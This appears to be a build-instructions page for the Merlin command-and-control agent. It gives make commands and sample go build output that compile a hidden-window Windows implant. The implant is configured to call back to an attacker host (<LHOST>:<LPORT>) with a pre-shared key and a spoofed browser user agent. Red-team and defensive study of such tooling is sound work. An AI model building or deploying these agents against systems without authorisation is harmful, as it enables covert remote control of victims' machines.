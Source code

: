 #### Build Commands

```console
$ make windows
$ make linux
$ make darwin
$ make mips
$ make arm
```

#### Custom Build Commands

> https://merlin-c2.readthedocs.io/en/latest/agent/custom.html

Please note that you have to be inside the `agent folder` for building agents.

##### Basic Build with no Customization

```console
$ make windows DIR="./output"
```

###### Sample Output

```console
export GOOS=windows GOARCH=amd64;go build -trimpath -ldflags '-s -w -X "main.auth=opaque" -X "main.addr=127.0.0.1:4444" -X "main.transforms=jwe,gob-base" -X "main.listener=" -X "github.com/Ne0nd0g/merlin-agent/v2/core.Build=f0624a3082928d01eaa86a0fb101b0d1d72cde02" -X "main.protocol=h2" -X "main.url=https://127.0.0.1:443" -X "main.host=" -X "main.psk=merlin" -X "main.secure=false" -X "main.sleep=30s" -X "main.proxy=" -X "main.useragent=Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/40.0.2214.85 Safari/537.36" -X "main.headers=" -X "main.skew=3000" -X "main.padding=4096" -X "main.killdate=0" -X "main.maxretry=7" -X "main.parrot=" -H=windowsgui -buildid=' -gcflags=all=-trimpath= -asmflags=all=-trimpath= -o ./output/merlinAgent-Windows-x64.exe ./main.go
```

##### Custom Build with customized Parameters

```console
$ make windows ADDR="<LHOST>" DIR="./output" AUTH="opaque" LISTENER="732e296e-7856-4914-961b-b4ba74972b54" KILLDATE="0" RETRY="10" PAD="4096" PROTO="h2" PSK="<PSK>" SKEW="3000" SLEEP="10s" URL="https://<LHOST>:<LPORT>/" USERAGENT="Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/40.0.2214.85 Safari/537.36"
```

###### Sample Output

```console
export GOOS=windows GOARCH=amd64;go build -trimpath -ldflags '-s -w -X "main.auth=opaque" -X "main.addr=<LHOST>" -X "main.transforms=jwe,gob-base" -X "main.listener=732e296e-7856-4914-961b-b4ba74972b54" -X "github.com/Ne0nd0g/merlin-agent/v2/core.Build=f0624a3082928d01eaa86a0fb101b0d1d72cde02" -X "main.protocol=h2" -X "main.url=https://<LHOST>:<LPORT>/" -X "main.host=" -X "main.psk=<PSK>" -X "main.secure=false" -X "main.sleep=10s" -X "main.proxy=" -X "main.useragent=Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/40.0.2214.85 Safari/537.36" -X "main.headers=" -X "main.skew=3000" -X "main.padding=4096" -X "main.killdate=0" -X "main.maxretry=10" -X "main.parrot=" -H=windowsgui -buildid=' -gcflags=all=-trimpath= -asmflags=all=-trimpath= -o ./output/merlinAgent-Windows-x64.exe ./main.go
```
